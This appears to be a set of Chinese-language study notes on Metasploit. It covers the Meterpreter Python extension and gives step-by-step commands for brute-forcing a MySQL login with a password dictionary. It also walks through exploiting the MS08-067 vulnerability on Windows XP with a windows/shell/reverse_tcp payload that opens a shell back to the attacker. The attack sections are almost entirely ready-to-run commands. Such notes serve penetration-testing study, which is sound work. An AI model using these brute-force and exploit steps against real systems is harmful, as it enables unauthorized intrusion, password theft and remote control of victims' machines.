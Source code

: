 #### Meterpreter python扩展
- 2015年11月份，来自社区的贡献
- 无需运行环境，在客户端运行原生python代码
- load python （加载插件。meterpreter>环境下）
- Help
- python_execute "print("Hello world!")"
- python_execute "import os;cd = os.getcwd()" -r cd （-r 表示返回出来的变量）
- python_import -f find.py

# 实例
### 暴力破解mysql数据库密码
- 找到并使用mysql_login模块
```
search mysql_login
use mysql_login
```
- 查看需要设置的项
```
show options
```
- 设置主机，用户名，和密码字典
```
set RHOSTS 127.0.0.1
set USERNAME lrf
set BLANK_PASSWORDS true   //检测空密码
set PASS_FILE /home/kali/ruo.txt
```
- 执行
```
run/expoit    //出现绿色加号证明成功
```

### ms08-o67经典漏洞利用（xp）
- 找到并使用ms08-067
```
search ms08_067
use ms08_067_netapi
```
- 查看需要设置的项并挨个设置
```
show options
set RHOST 192.168.1.1
```
- 查看并设置主机系统版本
```
show targets
set target 34
```
- 查看并设置payloads
```
show payloads
set payload windows/shell/reverse_tcp
set lhost 192.168.1.1
```
- 执行
```
exploit
```


